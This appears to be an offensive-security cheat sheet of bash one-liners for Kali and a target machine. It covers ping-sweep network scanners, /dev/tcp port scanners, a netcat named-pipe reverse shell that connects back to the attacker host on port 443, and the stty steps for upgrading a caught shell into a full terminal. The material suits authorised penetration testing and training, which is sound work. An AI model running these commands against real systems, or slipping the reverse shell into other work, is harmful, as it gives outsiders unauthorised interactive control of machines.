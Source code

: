 #### Network scanner
```bash - kali
#!/bin/bash

for i in `seq 1 255`; do ping -c 1 xxx.xxx.xxx.$i | tr \\n ' ' | awk '/1 received/ {print $2}'; done
```

```bash - kali
for i in {1..255}; do (ping -c 1 x.x.x.${i} | grep "bytes from" &); done
```

#### Port scanner
```bash - kali
#!/bin/bash

#./portscanner.sh -i xxx.xxx.xxx.xxx -p 

#Variables
empty=""
#Arguments for the script
while [ "$1" != "" ]; do
	case "$1" in
		-i | --ip )		ip="$2";	shift;;
		-p | --ports )		ports="$2";	shift;;
	esac
	shift
done
#Checking if the -i is empty
if [[ $ip == $empty ]]; then
	echo "Please specify an IP address with -i"
	exit
fi
#checking is -p is empty
if [[ $ports == $empty ]]; then
	echo "Please specify the max port range -p"
	exit
fi
#Scans ports/Dumps closed ports/displays open ports
for i in $(seq 1 $ports); do
	( echo > /dev/tcp/$ip/$i) > /dev/null 2>&1 && echo $ip":"$i "is open";
done
```

#### Another port scanner
```bash - kali
for i in {1..65535}; do (echo > /dev/tcp/$TARGET/$i) > /dev/null 2>&1 && echo $1 is open; done
```

#### Others
```bash - target
cat > script.sh <<EOF
```

```bash - target
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f
```

```bash - target
EOF
```

#### STTY Terminal
```bash - target
CTRL+Z
```

```bash - kali
stty raw -echo
```

```bash - kali
stty size
```

```bash - kali
fg
```

```bash - target
export SHELL=bash
```

```bash - target
stty rows $x columns $y 
```

```bash - target
export TERM=xterm-256color
```

